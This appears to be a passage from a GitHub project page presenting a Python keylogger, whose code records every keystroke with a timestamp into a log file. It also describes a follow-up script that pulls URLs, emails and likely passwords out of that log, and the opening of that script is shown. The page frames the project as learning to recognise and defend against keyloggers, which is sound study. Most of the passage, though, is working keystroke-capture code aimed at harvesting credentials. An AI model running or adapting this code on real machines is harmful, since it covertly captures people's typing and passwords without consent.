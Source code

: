 ```
# Function called with every key pressed, logs it into file with that current timestamp
def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write("{0} - {1}\n".format(time.ctime(), key.char))
    except AttributeError:
        with open(log_file, "a") as file:
            file.write("{0} - {1}\n".format(time.ctime(), key))
        
        # Break zone, when esc key is entered, the keylogger stops
        if key == key.esc:
            return False

# Enables input from keyboard
with Listener(on_press=on_press) as listener:
    listener.join()
```

---

<ins>Here is then the extracted raw data that the script retrieved:</ins>

<details><summary>Raw Data</summary></details>


---

Once the keylogging phase is complete, the log analysis script processes the data to extract meaningful insights.
First, the script reads the raw log file and removes timestamps and unnecessary formatting, leaving only the recorded keystrokes. 
It then reconstructs the keystrokes into coherent text by handling spaces, backspaces, and other formatting nuances. From the reconstructed text, 
the script identifies patterns useful for analysis, such as the most common words, URLs, emails, and potential passwords, which are detected using regular expressions
to match specific patterns. The results are then output to a new file, extracted_words.txt, which provides a detailed summary of the reconstructed text, the most frequently
used word, any identified URLs, emails, and passwords. This project highlights how keyloggers can be used to gain intelligence and emphasizes the importance of understanding
these tools from a cybersecurity perspective to recognize potential threats and defend against them.

<ins>Below is the next script in python that analyzes the raw data to extract valuable information:</ins>

```
import re
from collections import Counter

# Function to read the raw log file
def read_log_file(file_path):
    with open(file_path, "r") as file:
        return file.readlines()


# Function to remove timestamps and clean up lines
def clean_log_lines(log_lines):
    cleaned_lines = []
    
    first_line = log_lines[0].strip()  

    for line in log_lines[1:]:
        # Remove timestamp pattern 
        cleaned_line = re.sub(r".*?-", "", line).strip() 
        cleaned_lines.append(cleaned_line)
    
```